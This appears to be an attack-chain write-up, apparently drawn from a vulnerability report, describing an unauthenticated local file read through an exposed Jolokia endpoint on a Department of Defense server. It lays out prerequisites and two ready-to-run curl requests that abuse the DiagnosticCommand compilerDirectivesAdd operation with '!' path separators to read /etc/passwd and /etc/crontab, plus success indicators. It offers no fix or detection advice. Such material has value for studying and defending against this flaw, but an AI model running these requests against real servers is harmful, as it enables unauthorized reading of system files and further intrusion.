

# Unauthenticated LFI via Path Traversal in Jolokia Endpoint to Read Sensitive Files

Multi-stage attack chain demonstrating exploitation of an unauthenticated LFI vulnerability in a Jolokia JMX endpoint on a web server, allowing arbitrary file reads via path traversal with the '!' symbol. This leads to disclosure of sensitive system files, such as user accounts and scheduled tasks, on a U.S. Department of Defense server.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~2 minutes |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[commands/curl-jolokia-lfi]]

### Target Environment

- Web platform with Jolokia JMX agent exposed
- Java-based application server (e.g., Tomcat with Jolokia)
- Linux OS on target (inferred from /etc paths)
- Open port 443 (HTTPS)

### Initial Access Requirements

- Network access to the target web server (public-facing)
- No credentials required (unauthenticated)
- Prior reconnaissance to identify Jolokia endpoint

## Detailed Attack Procedures

### Step 1: Read System Users via /etc/passwd
procedure: [[procedures/Exploit-Jolokia-LFI-for-File-Inclusion]]

**Objective**: Exploit the LFI vulnerability to read the /etc/passwd file, disclosing user accounts on the target server.

**Instructions**: Use [[commands/curl-jolokia-lfi]] to craft a request that traverses to /etc/passwd using '!' as the separator:

```bash
curl -k "https://target.com/jolokia/exec/com.sun.management:type=DiagnosticCommand/compilerDirectivesAdd/!/etc!/passwd"
```

**Expected Output**: The contents of /etc/passwd, listing usernames, UIDs, home directories, and shells.

**Success Indicators**:
- Response contains lines like "root:x:0:0:root:/root:/bin/bash"
- No authentication prompt or error

### Step 2: Read Scheduled Tasks via /etc/crontab
procedure: [[procedures/Exploit-Jolokia-LFI-for-File-Inclusion]]

**Objective**: Exploit the LFI vulnerability to read the /etc/crontab file, disclosing scheduled cron jobs and potential sensitive configurations.

**Instructions**: Use [[commands/curl-jolokia-lfi]] to craft a request that traverses to /etc/crontab using '!' as the separator:

```bash
curl -k "https://target.com/jolokia/exec/com.sun.management:type=DiagnosticCommand/compilerDirectivesAdd/!/etc!/crontab"
```

**Expected Output**: The contents of /etc/crontab, showing cron schedules and commands.

**Success Indicators**:
- Response contains cron entries like "* * * * * root /path/to/script"
- File contents returned without errors

## Attack Chain Summary

### Key Achievements

1. Unauthenticated access to arbitrary local files via Jolokia endpoint
2. Disclosure of system users from /etc/passwd
3. Exposure of scheduled tasks from /etc/crontab, aiding further reconnaissance

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[File and Directory Discovery]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Discovery]]

---
*Last updated: 2023-10-01T00:00:00Z*
